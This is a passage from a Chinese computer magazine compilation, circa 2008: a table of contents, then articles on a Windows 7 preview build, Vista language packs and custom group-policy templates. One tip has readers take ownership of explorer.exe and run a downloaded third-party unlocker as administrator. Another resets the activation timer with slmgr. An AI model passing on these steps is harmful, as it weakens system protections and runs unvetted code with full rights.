- 8. 让IE不再打开太多的窗口
- 9. 管理搜索引擎
- 10. 有选择性地清除相应隐私内容
## 268 信息爆炸时代 有效索取——快速获取最新资讯的8个好手段
### 一、使用RSS
### 二、订阅邮件列表
### 三、订阅百度新闻
### 四、订阅Google Alert
### 五、不要忘记订阅新闻组
### 六、重要邮件到达通知
### 七、用Excel来自动搜集信息
### 八、PPLive等订阅网络视频
## 270 更多精彩 打造自己的多模板多图标的Foxmail
- 1. 下载/安装Foxmail
- 2. 设置账户
- 3. 设置邮件规则
- 4. 设置邮件模板 批量自动签名
- 5. 用上更多图标
- 导出Foxmail设置
- 打包自己的Foxmail
- 使用自己的Foxmail
## 271 坐在办公室里当指挥
### 一、维护电脑，我用远程
- 1. 开启远程桌面连接
- 2. 主控端设置
### 二、电脑协助 我用远程
- 1. 让MM发封求助信
- 2. 远程登录MM电脑
- 3. 远程演示
### 三、电脑控制，我用远程
- 1. 生成服务器端程序
- 2. 登录家中电脑
- 3. 主机屏幕监视
- 4. 下载远程电脑中的电影
- 5. 远程维护
- 6. 远程关机
- 7. 卸载服务器程序
### 四、局域网管理，我用远程
- 1. 扫描在线电脑
- 2. IP管理
- 3. IP保护
- 4. 限制上网时间
## 275 为QQ找个“清洁工”
### 一、软件下载
### 二、QQ垃圾文件清理操作步骤
### 三、其他清理功能使用
## 276 让局域网办公更轻松
### 一、网络传输，让文件共享更方便
### 二、网络存储，让资源保存更快捷
### 三、网内搜索，查找共享资源更方便
### 四、内网聊天，让沟通更轻松
### 五、远程同步 让办公更高效
### 六、无线互联，随时随地传文件
## 281 网页歌曲找你没问题
- 第一招：利用歌词搜索歌曲
- 第二招：利用属性对话框中的位置链接下载
- 第三招：利用网页Cookie下载所需歌曲
## 282 让寝室网上生活更多彩
### 一、在宿舍内架个电影院
### 二、电视节目大家看
### 三、宿舍电视台，正点开播
### 四、搭建宿舍网络相册，共享照片的乐趣
## 287 搭建方案全接触 宿舍无线局域网
### 一、搭建无线局域网
- 1. 无线设备
- 2. 硬件连接
- 3. 配置无线路由器
- 4. 配置无线网卡网络协议
### 二、搭建点对点无线互联网络
- 1. 通过XP下自带的无线设置向导组网
- 2. 通过Sonbuddy软件实现快速组网实现多机互联
## 291 巧用傲游浏览器来下载FLV视频
## 292 网上的“社科院”——问卷调查网上做
### 一、进入“问道”调查问卷的平台
### 二、注册创建属于你自己的问卷
### 三、创建你的问卷
### 四、调查问卷的发布
## 293 电脑前的天文观测站
## 294 邀你一起畅游Google日历
### 一、申请Google账号
### 二、认识Google日历界面
### 三、发布我们的日程
### 四、共享日历
## 295 让Photoshop歇会儿——在线为照片加边框
### 一、巧用LoonaPix添加边框
### 二、利用Instantizer为图片在线添加边框并旋转角度
## 298 博客备份很轻松
## 317 在QQ中也能播放在线电视
## 328 我要当“作家”——一个网络平台圆你的作家梦
## 335 网络视频到手机，iTudou全搞定

## 硬件与数码

## 300 方寸之间显实力——笔记本屏幕技术解析
- Part1：主流笔记本屏幕现状
- Part2：什么样的屏幕亮度更高？
- Part3：色彩的诱惑：笔记本屏幕最大软肋
- Part4：更轻更薄更省电：面板技术奠定基础
## 304 打造数字娱乐家庭——客厅里的IT布置
### 一、数字客厅的核心：MiniPC与数字电视机
### 二、居家无线网络：无拘无束的乐趣
## 307 小巧并不低能 EeePC的N大补药
### 一、安装Windows
### 二、让存储空间更大些
### 三、解决USB接口太少问题
### 四、让屏幕再大些
### 五、配置不算太高、运行速度相对较慢
### 六、让网卡适应出差需求
### 七、出差在外 注意安全
## 310 高清世界通行证——蓝光刻录应用指引
- Part 1 蓝光刻录软件全接触
- Part2 没有蓝光也能永存高清视频
- Part3 高清影碟如何购买才划算？
- 盗版刻录性价比不高
- 关注中文字幕
- 音频效果不可忽视
## 314 架起PC和AV的桥梁——液晶电视应用攻略
### 一、点对点问题的由来：清晰画面的前提
### 二、点对点的几种情况
### 三、实现点对点的捷径：向物理分辨率看齐
### 四、高清解码硬件配置
## 318 尽一份社会责任——环保电脑选购与应用
- 传统三大件：节能是关键
- 1. 低功耗CPU值得推荐
- 2. 环保内存和环保硬盘
- 3. 环保硬盘注重低功耗
- 远离化学污染：环保板卡深入人心
- 1. 板卡OSP认证
- 2. 产品RoHS认证
- 节能更要防辐射：环保机箱电源
- 1. 省电的电源更受欢迎
- 2. 机箱是防辐射的最后关卡
- 环保显示器：RoHS认证与TCO认证
- 1. TCO标准为环保做贡献

## 2.普通消费者更关心辐射控制

## 五种武器：节省电能的设置方法

- 1.散热
- 2.设置CPU工作频率
- 3.硬盘
- 4.光驱
- 5.外部设备接口

## 节能、静音、散热：环保电脑从细节做起

- 1.让高性能显卡减负
- 2.追求噪音与散热的平衡点
- 3.给CPU“降压”

## 谁说高清就是烧钱——整合平台如何玩转高清世界

## 高清视频应用：集成显卡开辟新舞台

- 1.集成显卡的高清舞台在哪里
- 2.视频优化技术成为分水岭

## Intel整合平台：CoreAVC软解压是捷径

- 1.除了H.264一切好办
- 2.KMPlayer+月光组合
- 3.H.264解码怎么办

## nVIDIA整合平台：用好Pure Video功能

- 1.了解Pure Video功能的区别
- 2.如何打开Pure Video功能

## AMD-ATI整合平台：

- 1.AMD 690G：配合高性能CPU
- 2.AMD 790G：一切设置省心省力

## 完美呈现4:3画面——让宽屏显示器和标屏分辨率和睦相处

## 新品选购：标屏切换也有玄机

- 1.切换后分辨率是否点对点
- 2.可支持的切换分辨率
- 3.切换前对分辨率的要求

## 自力更生：显卡驱动也能切换标屏显示

- NVIDIA显卡的调整方法
- AMD-ATI显卡的调整方法

## 向左走还是向右走？CPU与GPU谁更重要

- 一、3D游戏支撑平台：CPU和GPU的分工
- 二、回顾过去：CPU和GPU两者并重
- 三、时代变迁：天平倾向时刻调整
- 四、展望未来：nVIDIA CUDA开辟融合之路

## 拯救动力源泉——笔记本电池修复指南

- 一、选择最佳的修复时机
- 二、“深充深放”的基本方法
- 三、锂电池换芯

## 越小越精神——低价MINI笔记本选购及应用指南

- 一、笔记本小型化的发展趋势
- 二、“迷你”笔记本主流平台简介
- 三、其他特色技术及选购要点
- 四、“迷你”笔记本应用精要

## 跟我玩转笔记本电脑BIOS

- 一、笔记本BIOS设置应用实例
  - 1.进入笔记本BIOS设置菜单
  - 2.笔记本BIOS设置的基本界面
  - 3.电源管理设置：在省电和性能间获得平衡
  - 4.安全设置：让本本不再洞开“艳照门”
  - 5.启动及设备管理设置：系统维护帮手
- 二、笔记本电脑BIOS升级实例
  - 1.什么时候需要升级BIOS
  - 2.用软盘升级BIOS
  - 3.用U盘及硬盘升级
  - 4.Windows环境下升级
  - 5.升级BIOS注意事项

## 让本本不再“上火”

- 一、笔记本散热设计概述
  - 1.ThinkPad本本的散热设计
  - 2.华硕智能散热技术
- 二、笔记本散热器特点及选购
  - 1.是否需要笔记本散热器
  - 2.笔记本散热器选购要点
- 三、常见笔记本电脑散热器介绍
- 四、多管齐下让笔记本更“冰凉”
  - 1.其他辅助散热措施
  - 2.用软件帮助本本“消火”

## 侦破“光驱丢失案”

## 与Windows 7的第一次亲密接触

◆文/王志军

随着微软PDC2008（专业开发者大会）的开幕，Windows 7的M3版本也被发放给与会者与经过挑选的测试者，笔者有幸也从官方得到这一版本，这里向朋友们报告Windows 7的一些使用体会。我们首先来看一看目前公布出的Windows 7的已知版本的信息：

- Milestone 1
- build 6519.1.071220-1525
- build 6574.1
- Milestone 2
- build 6589.winmain.080511-1400
- Milestone 3
- build 6780.1.080910-1010
- build 6801.winmainwin7m3.081913-2030
- build 6933.winmain.081020-1842


## 一、安装过程很简单

DVD镜像文件的大小为2.72GB，应当说并不算十分庞大，也在可以接受的范围之内，至于说安装的方法，与Windows Vista并无区别，既可以刻盘安装，也可以使用Daemon Tools等虚拟工具加载之后进行安装，加载安装程序时，屏幕中央的滚动条已经由原来的绿色更改为蓝色，下方还有倒映效果，看起来非常的眩目。

如果是在一块新的硬盘上安装Windows 7，安装程序会自动保留200MB的系统分区，以便保存启动系统所需要的核心文件。整个安装过程包括Copy Windows files、Expanding files、Installing features、Installing updates、Completing installation等步骤，大概30分钟左右即可完成，整个安装过程需要2次重新启动，安装完成之后默认占用9.1GB的磁盘空间，应当说还是可以令人接受的。

需要指出的是，安装结束之后的首次启动时会对Windows进行配置，这里只能将 "Country or region" 设置为默认的 "United States"，如果更改为 "China"，将无法进行下一步的操作，至于 "Time and currency" 和 "Keyboard layout" 则没有这方面的限制。当然，安装完成之后，我们仍然可以在 "Control Panel→Regional and Language Options" 窗口中进行相关的设置，这并不影响系统的正常运行。

## 二、Windows 7依然需要激活

第一次启动时，我们会看到关于Check Vedio Performance的配置步骤，不过这里可以选择跳过。图1是初次进入Windows 7的桌面截图（题图），如果尚未激活系统的话，桌面右下角会有 "Windows 7 For testing purposes only.Build 6801.This copy of Windows is not genuine." 的版权提示，虽然这个测试版本可以使用至2009年7月2日（可以在运行对话框中输入 "winver" 进行查看），但如果没有激活的话，将只能获得30天的使用时间，除非你使用 "slmgr -rearm" 重置激活时间。

其实，我们完全不需要去考虑修改系统时间、替换文件等旁门左道，如果你曾参加Windows Vista Beta1/Beta2/RC1的公开测试，那么手头应该拥有当初所免费申请的安装密钥，这些安装密钥同样可以用来激活Windows 7。访问当初申请Windows Vista Beta1/Beta2测试密钥所提交的邮箱，将密钥复制到剪贴板中，然后进入Windows 7的系统属性窗口，单击 "Change product key" 按钮，粘贴密钥，单击 "Next" 按钮，稍候即可完成在线激活。

激活Windows 7之后还有另外一个好处，那就是可以通过系统内置的 "Send feedback" 向微软提交测试反馈，如果所提交的反馈有价值，微软将会赠送一份正版授权，感兴趣的朋友可以一试。

## 三、Windows 7的细节之变

虽然粗看起来，Windows 7的外貌与Windows Vista并没有太大的区别，但如果细细剖析，还是可以从中发现不少细节方面的精心雕琢：

## 1.系统托盘区的秘密

系统托盘区的图标有了新的内容，这里会默认显示Message、Network、Sound、Time，Message是用来报告各种系统提示信息，例如发现新的更新、未安装反病毒软件等，图标的风格也有了很大的改变，至于其他的快捷方式图标，都会自动集中在系统托盘区。

当然，系统托盘区所有的项目都可以自行决定是否显示，例如同时显示图标和通知信息，或者仅仅显示图标或通知信息，如果勾选 "Always show all icons on the taskbar" 复选框，可以和以前一样在任务栏显示图标。请注意在系统托盘最右边有一小块区域，单击之后即可最小化所有窗口并显示桌面，应当说是十分的方便。遗憾的是，官方博客上公布的任务栏改进，微软PDC大会上演示的超级任务栏功能并未在这个版本中得以体现，这里仍然是Windows Vista的任务栏风格，快速启动栏也仍然被保留下来，不过当鼠标指向开始菜单时，那个圆球形的开始按钮会持续闪亮。

## 2.主要组件的更新

在Windows 7的主要组件中，内置的IE浏览器已经是8.0.6801.0版本，而Windows Media Player则如期升级为12.0.6801.7000，不仅主界面更加简洁，而且资源占用率也大大降低，Directx的版本号仍然为10。附件的风格与先前放出的截图相同，画图、写字板等附件采取了类似于Office 2007的界面风格（见图2），更易于操作和菜单功能的选择。



Windows Media Player 12除了版本号的提高之外，还提供了无损预览的功能，可以说是非常的实用。当我们正在欣赏歌曲之时，忽然准备从媒体库中添加某几首歌曲至当前的播放列表，但又不确定究竟是哪一首歌曲，如果直接播放试听的话，会被动中断当前播放的内容。Windows Media Player 12则很好的解决了这一困难。在你“心血来潮”之时，可以直接将鼠标移到媒体库中的相应歌曲上，此时会弹出一个悬浮框，单击其中的“Preview”链接，这里可以播放声音片断（见图3），假如觉得还不够的话，可以以15秒为单位继续往前跳，相信应该足够试听了。鼠标移开之后，Windows Media Player 12会继续播放当前播放列表的内容，刚才的预览并不会造成任何影响，即使当前并不在播放歌曲，你也仍然可以以15秒为单位预览媒体库的歌曲。



即使是最为传统的画图程序，现在也有了很大的改进，例如默认保存的文件类型是PNG格式，而且我们可以在下级子菜单中直接选择几种常用的图片格式进行保存；计算器的界面发生了很大的变化，在功能方面也有不少的改进，除了常规的数字计算、科学计算之外，还可以进行类似于贷款计算等复杂的财务功能。

## 3.资源管理器

按下“Win+E”组合键打开资源管理器窗口，可以看到窗口右上角增加了两个非常实用的按钮：Choose how to view the contents of this location、Show the Preview pane。前者可以从下拉菜单中选择不同的查看模式，或者直接单击此按钮进行快速切换，其中新增加了一种名为“Content”的视图查看模式，选择后可以显示图4所示的内容，这里既没有选择图标模式时的臃肿，也没有选择详细信息模式时难以完整浏览的尴尬，而且同样可以完整显示出包括文件名、日期、大小、作者等信息，可以说是一种比较合理的选择；后者则可以直接启用或关闭预览面板，而不再需要从“Organize”菜单下勾选“Laylut→Preview Pane”，只要系统中已安装相应的预览器，而且已经完成注册，那么可以在预览面板中直接查看文件内容。



当我们将鼠标移动到窗口的最顶部或最底部，也就是鼠标指针变成上、下方向两个箭头时，双击即可将窗口垂直最大化，应当说是一个不错的功能，但水平最大化却无法实现。按住鼠标左键，单击窗口标题栏将其拖曳到最边缘，此时所拖曳的窗口会自动拉伸至显示全屏的一半，这个功能非常适合用宽屏模式浏览网页。

## 4.Library的妙用

打开资源管理器窗口，可以看到这里已经不再是以前版本的磁盘目录，而是引入了“Libraries”的方式进行管理，其下包括Documents、Downloads、Music、Pictures、Video等组别，其实每个级别都是一个*.library-ms的文件，应当说更有利于用户管理不同类型的文件。如果需要自行定制个人文件夹的路径：双击桌面上的用户图标，打开用户文件夹窗口，右击需要定制的个人文件夹，例如“Personal Pictures”，从快捷菜单中选择“Properties”打开属性窗口，切换到“Location”选项卡，单击“Move…”按钮，在弹出的对话框中指定需要转移的目标路径，确认后即可生效，以后使用时就方便多了。需要提醒的是，Library支持链接，在资源管理器打开相应的文件夹之后，我们只要单击工具栏上的“Include in Library”即可。

## 5.控制面板

打开控制面板窗口，可以看到左侧已经更改为窄边设计，当点击某一个项目之后，左侧会滑动出同级和相关的项目链接，滑动的效果不仅柔和而且非常明显；以前的安全中心已经被Windows Solution Center（解决方案中心）所取代。

## 6.个性化

Windows 7不会再在屏幕右侧显示侧边栏，不过我们可以从桌面右键菜单中选择“Gadgets”打开小工具添加窗口，遗憾的是“Weather”仍然一如既往显示为“Service not available in your region”，值得一提的是所有的小工具都可以被任意排放在桌面上。即使打开“Desktop Icon Settings”对话框，我们也无法向桌面添加IE图标，不过你仍然可以按照以前的方法重新在桌面上显示IE图标。打开个性化窗口，你会发现这里已经由原来的纵向排列变更为平铺式，而且还内含窗口，看起来更加的快捷直观。

## 7.集成WinRE

值得一提的是，Windows 7集成了WinRE的功能，我们只需要在启动时按住F8功能键，选择“Repair my computer”，可以直接进入WinRE环境，这样在恢复系统时将更为方便。如果你检查系统磁盘根目录下的“Recovery”文件夹，可以发现其中的Winre.wim、boot.sdi两个文件，这是用来进行系统还原之用的，如果关闭系统还原功能之后，“Recovery”其中的文件自然也会清空。

## 8.内置ISO镜像刻录

Windows 7终于加入了ISO镜像刻录的功能，这样我们就不需要再安装Nero等第三方工具软件。进入ISO镜像文件所在的路径，可以看到变化的文件图标，直接单击工具栏上的“Burn”按钮，按照提示插入空白的刻录盘片就可以了，这个功能甚至支持蓝光刻录。不过，Windows 7暂时还无法支持BIN、CUE格式的镜像文件，这也在情理之中，毕竟这涉及到文件版本的问题。

如果你注意的话，你会发现开始菜单的“Maintenance”子菜单下出现了“Create Recovery Disc”的功能，也就是刻录启动盘，这在Vista SP1测试版时也曾出现，但正式版发布时又将其去除，只是不知Windows 7正式发布时是否还会保存这一功能？

## 9.UAC改进

虽然仍然会弹出UAC提示对话框，但默认取消了安全桌面，也就是说屏幕不会再突然变暗，而且UAC弹出的次数也较Windows Vista明显减少，系统本身的操作不会出现UAC提示，只有执行第三方软件的操作时才会触发，例如安装程序（见图5）。不过，在提高用户体验的同时，似乎也在某种程度上降低了安全性，也算是微软的妥协吧。

## 10.音频改进

前面已经提到，Windows 7为用户带来了版本号为12.0.6801.7000的Windows Media Player，而且支持更多的音频格式，例如原生支持iTunes上极为流行的AAC格式，而不再只是固定于微软自己的音频格式，同时还内置蓝牙音频驱动，如果你拥有蓝牙耳机或播放器，那么可以直接使用，而不需要过多的安装和设置。另外，Windows Media Player 12引入了Music Wall的功能，这是从Zune引入的一个功能，当我们在Media Center中播放某张专辑时，将会在后台自动下载所有专辑的封面；可以方便地查看同一局域网内其他计算机的共享媒体，这对于家庭播放来说无疑是方便不少。

## 11.字体改进

现在，我们可以以缩略图的方式实时预览Windows 7的字体文件样式，如图6所示，每个缩略图可以显示该字体字母表的三个字符，例如英文字体是Abg，这样我们就不需要打开字体文件即可查看其样式。同一字体的黑体、斜体、黑斜体等变化，将不会再列为单独字体，而是放在同一文件夹中，双击即可进入分别查看。

如果你细心的话，你会发现Windows 7增加了一个名为“Gabriola”的新字体，这是一种很漂亮的Script字体。针对安装字体过多拖慢系统速度的问题，Windows 7允许用户按照某一条件将特定字体隐藏起来，既方便查看，也不会占用过多的内存。





## 玩转Windows 7的小技巧

Windows 7目前还只是一个英文版本，但显然获得了很多朋友的青睐，这里介绍几则比较实用的技巧：

## 1. 手工激活超级任务栏

遗憾的是，默认设置下Windows 7并没有启用PDC2008大会上演示的超级任务栏功能，我们必须自己动手进行激活。

首先请从网络下载unlockProtectedFeatures.exe，将其复制至系统磁盘的Windows文件夹，然后从开始菜单中依次查找"Accessories→Command Prompt"，右击选择"Run as administrator"，进入管理员权限的命令提示符环境，通过"cd"命令进入Windows路径，然后依次键入如下命令并运行：
takeown /f %windir%\explorer.exe
cacls %windir%\explorer.exe /E /G Administrator:F
taskkill /im explorer.exe /f
start unlockProtectedFeatures.exe

上述命令中的“Administrator”是当前登录的帐户名称，请根据实际情况进行替换，最后会弹出一个对话框，选择第二个选项“Unlock Protected Features”即可。如果你觉得上述命令比较麻烦的话，那么也可以打开任务管理器窗口，手工终止Explorer.exe进程，然后进入Windows目录，右击unlockProtectedFeatures.exe，从快捷菜单中选择“Run as administrator”运行即可。

## 2. 用好超级任务栏

有些朋友可能会奇怪：Windows 7不是已经有了任务栏，为什么还要费这么大的周折启用这个所谓的超级任务栏？其实，这个超级任务栏不仅使其中的程序图标得到扩大，而且鼠标指向时，所有分组显示的内容都可以显示缩略图，例如IE会显示当前打开的所有标签页供用户进行挑选和浏览（见图7），当然其他的分组也是如此，这样自然更有利于快速定位。

在复制文件时，任务栏图标上会显示倒计时的效果，而且还会有水柱在滚动；如果需要让某些需要使用访问的程序或文件夹固定在任务栏，可以单击右侧的小手柄按钮，从快捷菜单中选择“Pin this program to Taskbar”即可将其钉定，这样就可以节省快速启动栏的空间甚至将其直接关闭。在任务栏中单击鼠标右键，将显示一个“Jump List”快捷菜单供用户选择，那些使用了“最近的文档”功能的应用程序，将在“Jump List”菜单中显示它最近打开过的文档和其他的一些常用功能，开发者也可以通过Windows 7的API为这个菜单添加新的功能。

如果觉得超级任务栏的个头太过庞大，可以打开“Taskbar and Start Menu Properties→Taskbar”对话框，在这里勾选“Use small icons”复选框，确认后即可生效。

## 3. 最小化窗口也可以“摇一摇”

在激活超级任务栏之后，我们可以通过“摇一摇”快速最小化所有窗口，这个功能的英文名称为“Aero Shake”。当桌面上堆砌着多个窗口，而你只准备使用其中的某一个，同时让其他窗口都最小化，那么可以将光标放在欲保留窗口的标题栏上，按住鼠标左键左右摇晃，其他窗口会被自动最小化，需要复原时可以再次摇晃，这是一项非常有趣而且实用的鼠标手势功能的应用。

## 4. 定时更换壁纸

Windows 7增加了一个非常实用的功能，我们现在可以定时更换桌面壁纸，这样就可以让桌面具有幻灯片的效果，虽然这个功能早已在MacOS X系统中得以体现，但Windows操作系统引入此功能，Windows 7还是第一次。

首先请打开“Folder Options→View”对话框，在这里勾选“Use check boxes to select items”复选框，确认之后即可生效。接下来请右击桌面空白处打开“Personalization”窗口，单击“Desktop Background”按钮，在这里依次选择需要切换的壁纸，切换的间隔时间可以在10秒至1天之间进行设置，当然也可以勾选“When using battery power, pause the slide show to save power”复选框以实现随机切换。

除了本地壁纸之外，我们还可以考虑使用RSS Feed的壁纸源，例如NASA的RSS，这就更加有趣了。

在以前的版本中，Windows始终无法记住不同分辨率下桌面图标的位置，不过这个老大难问题终于在Windows 7得到根本的解决，桌面图标和边栏都能够分别记住不同分辨率下的位置，再不会因为切换分辨率而导致图标排列发生变化，在更改资源管理器的一个窗口的大小之后，资源管理器窗口都会随之改变，至于其他方面的变化，感兴趣的朋友不妨安装一试。



## Vista，你的语言我永远都懂...

◆文/长江边上

相信很多朋友都已经用上了Windows Vista，随着SP1的正式发布，Windows Vista已经无可争议地取代Windows XP，成为目前最为主流的操作系统，虽然绝大多数朋友使用的都是简体中文的版本，不过有时你可能也会需要安装其他语种，适当了解一下语言包的知识还是很有必要的。

## 一、初识“区域和语言选项”

进入控制面板，选择窗口中的“时钟、语言和区域”，在随后打开的窗口中选择“区域和语言选项”，如图1所示，这里提供了格式、位置、键盘和语言、管理四个选项卡，其中的“管理”选项卡尤为重要。

### 1.格式

在这里可以设置数字、货币、时间、短日期、长日期等内容的显示方式，也就是设置用户区域，单击“自定义此格式”按钮，可以打开“自定义区域选项”进行更详细的设置，默认的格式当然是“中文（简体，中国）”。

### 2.位置

这里的设置决定了系统所提供的新闻和天气预报等信息，默认的当前位置是“中国”。

### 3.键盘和语言

在这里可以更改键盘布局和其他输入语言，添加或删除某种中文输入法就是单击“更改键盘”按钮进行操作，而更改输入法的顺序也是在这里完成，某些版本可以在这里手工安装或卸载语言，关于这一点后面还将进行详细的介绍。

### 4.管理

我们在这里可以选择非Unicode程序中所使用的当前语言，也就是设置系统区域，这项设置决定了系统所采用的字符集，也就是代码页（包括ANSI代码页和OEM代码页）。

简单地说，字符在系统是以二进制代码的形式存在或被处理，而这个代码就是相应字符集中指定的代码。默认的设置是“中文（中国）”，那么ANSI和OEM代码页都将被设置为简体中文GBK，而“英语（美国）”则对应的是ANSI-Latin I和OEM-United States，如果英文操作系统尝试使用自己的Latin I去解读由GBK编码的中文字符时，那么就会出现乱码。

如果你使用的是非中文版本的Vista，例如英文版本，那么需要对区域和语言选项进行正确的设置，否则可能将无法正确地显示中文字符。例如英文版本，从控制面板进入“Regional and Language Options”对话框，将“Formats”设置为“Chinese（PRC）”，“Location”设置为“China”，当然还需要进入“Administrative”选项卡，将“Current language for non-Unicode programs”设置为“Chinese（PRC）”，完成设置后需要重新启动系统。

## 二、注册表下的秘密

对于Windows Vista来说，所有的系统设置都被保存在注册表的数据库之中，“区域与语言选项”也不例外，相关的分支主要是下面的几项：

### 1.HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\MUI\UILanguages

这里记录的是系统语言设置，由于Vista的核心代码不存在语言特异性，因此界面语言的显示主要取决于正在使用的MUI，“zh-CN”即中文语言包，“en-US”即英语语言包，其余的可以依次类推，其实也就是系统语言。

### 2.HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Nls

这里记录的是代码页、区域及语言等信息，在“Language”下面有两个重要的键值项，如图2所示，“Default”和“InstallLanguage”，它们的数值分别代表系统的默认及安装语言，其中“0804”代表简体中文，其实就是“中文（简体，PRC）”所对应的十六进制的LCID值，十进制值则是“2052”；“0409”代表“英语（美国）”，“0904”代表“繁体中文（台湾）”。

如果你希望率先体验首先在英文版本中提供的相关更新，那么可以在注册表编辑器下更改相关的键值，例如依次定位到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\Language”，将右侧窗格的“InstallLanguage”字符串值修改为“0409”，目的是让系统将原始安装语言识别为“英语（美国）”，当然这只是一个表象而已，而且必须首先安装英文语言包才行。

| 名称 | 类型 | 数据 |
| :--- | :--- | :--- |
| ab 3009 | REG_SZ | l_intl.nls |
| ab 300a | REG_SZ | l_intl.nls |
| ab 3401 | REG_SZ | l_intl.nls |
| ab 3409 | REG_SZ | l_intl.nls |
| ab 340a | REG_SZ | l_intl.nls |
| 默认 | REG_SZ | 0804 |
| ab InstallLanguage | REG_SZ | 0804 |

## 三、安装语言包也有“行规”

Windows Vista被称为真正意义上的World Wide Single Binary系统，也就是说它的可执行部分对于全球来说都是一样的二进制，即使简体中文版本的Vista也可以自由选择日语、瑞典语、朝鲜语、德语以及其他语言包，这比Windows XP必须在英文版本的基础上才能安装简体或繁体中文语言包要先进得多了。

不过，虽然所有版本的Vista都能使用语言包，但只有Ultimate（旗舰版）或Enterprise（企业版）两个版本才能实现多语言共存，至于其余的版本，包括Home Basic、Home Premium、Business等版本，由于受微软的授权许可限制，它们都只能保存一种语言。

也就是说，用户在安装系统时可以选择默认语言，选择后系统会自动将非默认的语言移除，系统及其他服务只能与所选择的语言相关，用户无法改变或升级至其他语言。不过，虽然Ultimate或Enterprise都可以自由添加各种语言包，以后就只需要简单的注销后重新登录，就可以在各种不同的语言界面之间进行自由切换。但是，这两种版本还是有一些区别的：

- Ultimate Vista：可以通过自带的更新功能获得各种语言包，如图3所示，然后我们就可以在这里选择需要安装的语言包，确认即可通过在线更新的方式安装语言包，目前微软已经在Windows Update站点提供可以在SP1下正常安装的所有35种语言包。
- Enterprise Vista：必须从控制面板中选择“更改显示语言”，此时会打开“区域和语言选项→键盘和语言”对话框，在这里单击“安装/卸载语言”按钮，然后按照系统提示进行操作。

语言包完成安装之后，我们就可以进入控制面板，在“时钟、语言和区域”类别下选择“更改显示语言”，或者打开“区域和语言选项”对话框之后切换到“键盘和语言”选项卡，在“选择显示语言”的下拉列表框中选择另一种语言，确认之后注销系统，就可以切换为另一种语言的界面。

## 四、安装语言包还有技巧

按照前面的介绍，我们可以通过自动更新的方法安装不同的语言包，从而实现多语言的共存，但实际操作时，你可能会遇到一些比较尴尬的问题，那么不妨看一看下面所介绍的技巧：

- 1. 离线安装语言包
如果你觉得通过在线更新的方式安装语言包所耗费的时间过于漫长，毕竟可能会由于网络的原因导致意外中断，那么也可以考虑在离线模式下手工安装语言包。例如英文语言包的下载地址为http://www.download.windowsupdate.com/msdownload/update/software/updt/2008/04/lp-en-us_15ef57e54b23adc1672991ecacb8594f044b9c3d.exe，使用迅雷或快车下载即可，然后再根据版本考虑选择安装方法，比起自动更新来说效率要高许多。

- 2. 命令行环境下安装语言包
除了通过前面介绍的方法之外，我们还可以在命令行环境下巧妙安装语言包，具体步骤如下：
①首先，请通过相关途径获取相关的语言包文件（*.exe），下载地址同前。
②接下来，请使用Issaris WinCAB（下载地址为http://www.skycn.com/soft/3470.html），运行之后从“Convert”菜单中执行“SFX CAB to CAB”的命令，选择已下载回来的语言包文件（*.exe），单击“打开”按钮，相关的CAB语言包会被自动剥离出来，至于是否重新命名可以根据自己的需要进行决定，例如这里重命名为lp.cab。
③右击开始菜单下的“附件→命令提示符”，从快捷菜单中选择“以管理员身份运行”，然后在命令提示符下执行下列命令，这里的“g:\mui\lp.cab”表示语言包文件所在的路径：
`start /w pkgmgr /ip /m:g:\mui\lp.cab`
这里需要耐心等待一段时间，执行完成后会返回当前文件夹，注销或重启系统，再次进入“区域和语言选项”窗口，如图4所示，现在我们就可以在“选择显示语言”的下拉列表框中发现新安装的“English”语言，接下来只需要选择“English”，确认后重新注销并登录即可。

- 3. 删除语言包的安装临时文件
如果你选择了安装某种语种的语言包，那么即使中途取消安装，但系统空间也会急剧减少，这是因为更新临时文件没有自动删除的原因。解决的办法很简单，进入“C:\Windows\SoftwareDistribution\Download\”文件夹，这里保存的是相关的更新临时文件，将这些文件全部删除就可以了。

## 为Windows Vista添加新的可控制策略

◆文/王志军

相信很多朋友早已用上了Windows Vista（以下简称Vista），如果使用的不是家庭版本，那么可以通过“gpedit.msc”打开本地组策略编辑器。不过，你是否想过自己也能为Vista添加新的可控制策略呢？这样做的好处有很多，例如可以重新找回意外丢失的组策略项目、解决病毒锁死注册表编辑器，这里以禁用注册表编辑器为例进行说明，考虑到叙述的方便，本文依然采取兼容Windows XP的*.adm格式：

### 第一步：检查注册表编辑器

首先请对注册表编辑器进行检查，打开后依次定位至“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies”，右击新建一个名为“System”的项，在右侧窗格中新建一个名为“DisableRegistryTools”的DWORD（32-位）值，该值为“0”表示启用注册表编辑器，该值为“1”时则禁用注册表编辑器。

### 第二步：书写代码

打开记事本或其他的文本编辑器，手工输入如下代码，注意括号中的内容为相应代码的解释，实际操作时请勿输入：

```
CLASS USER （这里的“CLASS”表示挂载在“计算机配置”或“用户配置”下，注册表中的位置分别对应“HKEY_LOCAL_MACHINE”或“HKEY_CURRENT_USER”，本例即挂载在“用户配置”下）
CATEGORY !!zjgwzj （“zjgwzj”是本例所使用的模板名称，请与[strings]中的名称保持一致；“CATEGORY”与后面的“END CATEGORY”必须成对出现）
POLICY !!DisableRegistry （“DisableRegistry”是本例所使用的新的策略名称，请与[strings]中的名称保持一致；“POLICY”必须与后面的“END POLICY”成对出现）
EXPLAIN !!DisReg_Help （“DisReg_Help”表示为新的策略设置帮助信息，请与[strings]小节中的名称保持一致）
KEYNAME "Software\Microsoft\Windows\CurrentVersion\Policies\System" （指定注册表键添加或更改的位置；此处的路径有省略）
VALUENAME "DisableRegistryTools" （指定注册表项被添加或更改的项目）
VALUEON NUMERIC 1 （选择“已启用”时的注册表键值）
VALUEOFF NUMERIC 0 （选择“已禁用”时的注册表键值）
END POLICY
END CATEGORY

[strings] （指定诸变量的具体内容）
zjgwzj="自用策略"
DisableRegistry="禁用注册表编辑器"
DisReg_Help="很简单，一看就明白，自己看着办吧，但操作之前请务必启用系统保护。"
```

### 第三步：保存为模板文件

上述代码书写完成之后，打开“另存为”对话框，注意请将“保存类型”设置为“所有文件”，然后保存为*.adm格式的文件，至于文件名可以任意输入。

### 第四步：添加模板

将刚才保存的*.adm文件复制到“%windir%\inf\”路径下，打开本地组策略编辑器，右击“用户配置→管理模板→添加/删除模板”，此时会弹出图1所示的对话框，指定路径后即可添加刚才所定义的模板文件，自然这只是采取传统格式定义的模板而已，而非Vista重新定义的.admx格式的策略。

